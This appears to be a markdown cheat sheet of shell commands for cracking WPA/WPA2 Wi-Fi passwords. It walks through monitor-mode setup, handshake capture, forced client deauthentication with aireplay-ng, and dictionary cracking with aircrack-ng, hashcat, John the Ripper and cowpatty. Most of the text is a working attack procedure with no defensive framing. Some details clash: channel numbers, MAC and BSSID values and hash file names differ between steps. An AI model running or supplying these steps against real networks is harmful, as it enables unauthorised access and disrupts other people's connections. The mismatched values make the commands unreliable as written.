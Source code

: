 ## WPA/WPA2

### Normal setup

```text
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
sudo iw dev
```
#### Create Monitor Mode Device

```text
sudo ip link set wlan0 down
sudo iw dev wlan0 interface add wlan0mon type monitor
sudo ip link set wlan0mon up					            
```

#### Set channel if needed
```text
iw wlan0mon set channel 7
```

### Check for networks with WPA available (normally WPA CCMP PSK)
```text
sudo airodump-ng wlan0mon
```
```text
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
30:94:8F:E8:89:5F  -25      240      131    0   6  130   WPA2 CCMP   PSK  linksys

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
30:94:8F:E8:89:5F  E4:84:D3:2E:1F:22  -38    1e- 1e   948      265
```

### Monitor/grab packets and wait for the handshake
```text
sudo airodump-ng -c 6 --bssid 30:94:8F:E8:89:5F -w file wlan0mon
```

### De-auth for a seprate channel to spead up / bute force the handshake
```text
sudo aireplay-ng -0 1 -a 30:94:8F:E8:89:5F -c E4:84:D3:2E:1F:42 wlan0
```

### once handshake has been collected ....


### Review packets captured
```text
aircrack-ng file-01.cap
```
```text
#  BSSID              ESSID                     Encryption
1  30:94:8F:E8:89:5F  linksys                WPA (1 handshake)
```

### Tidy up cap file and reduce size
```text
tshark -r file-01.cap -R "(wlan.fc.type_subtype == 0x08 || wlan.fc.type_subtype == 0x05 || eapol) && wlan.addr == 30:94:8F:E8:89:5F" -2 -w out.cap -F pcap
```
### Review output file
```text
aircrack-ng out.cap
```

### Cracking

```text
locate rockyou.txt

aircrack-ng -a2 -b 10:27:F5:66:BE:27 -w rockyou.txt out.cap

(ETA 2 HOURS)
```
#### Or a faster way to crack

```text
22000 | WPA-PBKDF2-PMKID+EAPOL
22001 | WPA-PMK-PMKID+EAPOL
```

```text
hcxpcapngtool -o hash.hc22000 -E wordlist out.cap
hashcat -m 22000 hc2200.txt rockyou.txt

(ETA 5 MINUTES)
```

#### or ....

```text
hccap2john out.cap > hc2200.txt
john --wordlist=rockyou.txt --format=wpapsk hc2200.txt

(ETA 5 MINUTES)
```

#### or ....

create a rainbow table and crack with that!
```text
genpmk -f <wordlist> -d precomputed-common -s home
cowpatty -d precomputed-common -s <ESSID> -r out.cap

(ETA 5 MINUTES - after its been pre-computed)
```

https://charlesreid1.com/wiki/John_the_Ripper/WPA
https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2












